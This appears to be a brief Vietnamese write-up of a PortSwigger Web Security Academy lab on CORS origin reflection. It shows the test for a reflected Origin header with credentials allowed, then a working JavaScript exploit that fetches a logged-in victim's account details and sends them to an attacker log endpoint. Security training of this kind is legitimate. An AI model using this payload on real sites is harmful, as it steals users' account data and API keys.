 # CORS

### 1. CORS vulnerability with basic origin reflection
https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

Context: 

![alt text](image.png)

Trong response có `Access-Control-Allow-Credentials: True` 

Test:

Thêm `Origin: https://example.com` vào request và ở response xuất hiện `Access-Control-Allow-Origin: https://example.com`

![alt text](image-1.png)

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```